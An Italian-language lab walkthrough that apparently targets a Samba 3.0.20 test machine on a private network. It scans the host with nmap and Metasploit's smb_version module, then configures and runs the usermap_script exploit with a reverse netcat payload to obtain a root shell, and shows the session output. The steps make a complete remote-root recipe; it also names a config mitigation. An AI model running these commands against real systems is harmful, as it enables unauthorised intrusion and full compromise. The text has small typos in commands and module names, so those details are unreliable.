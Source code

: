 # Samba

Samba è un insieme di strumenti utilizzati sulle piattaforme Unix e GNU/Linux che utilizza il protcollo SMB (Server Message Block). 

Tale protocollo è definito per le reti Microsoft Windows ed è stato progettato originariamente per reti piccole. Ad oggi è installato di default e permette di rendere visibile all’interno di una rete windows una macchina Linux. 

Altri servizi offerti da samba sono:
- Server per la condivisione di file system e stampanti;
- Client per lìaccesso a risrse NetBIOS su macchine Unix;
- Server DFS (Distributed File System).

Dalla procedura di enumeration iniziale sappiamo che la macchina target presenta samba sul porto 139 e 445. Per effettuare un attacco mirato a tale servizio è buona norma otterne informazioni sulla specifica versione per ricercarne delle vulnerabilità note. 

Da shell quindi digitaimo il comando ` namp -sV -p 137-139,455 192.168.xxx.xxx` che permette di ottenere la lista di servizi attivi sulla porta con il loro stato e il numero di versione. In particolare, nel nostro caso otteniamo il seguente output:

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-12 19:46 CET
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.198.4
Host is up (0.0049s latency).

PORT    STATE  SERVICE     VERSION
137/tcp closed netbios-ns
138/tcp closed netbios-dgm
139/tcp open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.40 seconds

```

Per ottenere informazioni più dettagliate sulla versione di samba utilizzeremo un modulo auxiliary interno a metasploit. Accediamo dunque alla msfconsole e digitiamo ` auxiliary/scanner/smb/smb_version` e successivamente eseguiamo uno show options. Successivamente settando la macchina target nel campo rhost ed eseguendo un run otteniamo l'esatto numero di versione del servizio presente sul nostro target

```
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.198.4
rhosts => 192.168.198.4
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.198.4:445     - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[*] 192.168.198.4:445     -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 192.168.198.4:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
Ricerchiamo per  tale versione delle vulnerabilità note e scopriamo che essa soffre di una vulnerabilità dovuta ad una cattiva gestione del mapping degli username. In particolare, vi è una linea del file di configurazione che punta ad un file ssh che effettua il mapping degli user che fa però affidamento a comandi esterni per fare mapping di user e di input per cui ogni input non è filtrato o “sanificato”.

Una prima soluzione che permette di ovviare a tale vulnerabilità è modificare questa linea all'interno del file di configurazone. 

Mostriamo di seguito come sfruttare tale vulenrabilità grazie a Metasploit. 

Effettuiamo un search name per samba e otteniamo una serie di payloads di attacchi disponibili. Per la nostra particolare vulerabilità useremo il payload `username_script`.

```
msf6 auxiliary(scanner/smb/smb_version) > search name:samba

Matching Modules
================

   #   Name                                         Disclosure Date  Rank       Check  Description
   -   ----                                         ---------------  ----       -----  -----------
   0   exploit/multi/samba/usermap_script           2007-05-14       excellent  No     Samba "username map script" Command Execution
   1   exploit/multi/samba/nttrans                  2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   2   exploit/linux/samba/setinfopolicy_heap       2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   3   auxiliary/admin/smb/samba_symlink_traversal                   normal     No     Samba Symlink Directory Traversal
   4   auxiliary/scanner/smb/smb_uninit_cred                         normal     Yes    Samba _netr_ServerPasswordSet Uninitialized Credential State
   5   exploit/linux/samba/chain_reply              2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   6   exploit/linux/samba/is_known_pipename        2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   7   auxiliary/dos/samba/lsa_addprivs_heap                         normal     No     Samba lsa_io_privilege_set Heap Overflow
   8   auxiliary/dos/samba/lsa_transnames_heap                       normal     No     Samba lsa_io_trans_names Heap Overflow
   9   exploit/linux/samba/lsa_transnames_heap      2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   10  exploit/osx/samba/lsa_transnames_heap        2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   11  exploit/solaris/samba/lsa_transnames_heap    2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   12  auxiliary/dos/samba/read_nttrans_ea_list                      normal     No     Samba read_nttrans_ea_list Integer Overflow
   13  exploit/freebsd/samba/trans2open             2003-04-07       great      No     Samba trans2open Overflow (*BSD x86)
   14  exploit/linux/samba/trans2open               2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   15  exploit/osx/samba/trans2open                 2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   16  exploit/solaris/samba/trans2open             2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   17  exploit/windows/http/sambar6_search_results  2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow


Interact with a module by name or index. For example info 17, use 17 or use exploit/windows/http/sambar6_search_results

```
Lanciamo quindi `use exploit/multi/samba/usermap_script` e vediamo le opzioni di tale pacchetto con show options ottenendo:

```
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Andremo a settare per tale pacchetto rhosts e anche lhost e lport come segue:

```
msf6 exploit(multi/samba/usermap_script) > set rhosts 192.168.198.4
rhosts => 192.168.198.4

msf6 exploit(multi/samba/usermap_script) > set lhost 192.168.198.3
lhost => 192.168.198.3
msf6 exploit(multi/samba/usermap_script) > set LPORT 8667
LPORT => 8667
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.198.4    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.198.3    yes       The listen address (an interface may be specified)
   LPORT  8667             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```
Lanciando ora il comando `exploit` entreremo all'interno della macchina target con una shell root.

```
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 192.168.198.3:8667 
[*] Command shell session 1 opened (192.168.198.3:8667 -> 192.168.198.4:53732) at 2021-12-12 20:01:02 +0100

whoami
root
ifconfig
eth0      Link encap:Ethernet  HWaddr 08:00:27:6d:7d:c6  
          inet addr:192.168.198.4  Bcast:192.168.198.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fe6d:7dc6/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:16 errors:0 dropped:0 overruns:0 frame:0
          TX packets:44 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:3134 (3.0 KB)  TX bytes:5436 (5.3 KB)
          Base address:0xd020 Memory:f0200000-f0220000 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:111 errors:0 dropped:0 overruns:0 frame:0
          TX packets:111 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:27845 (27.1 KB)  TX bytes:27845 (27.1 KB)

```
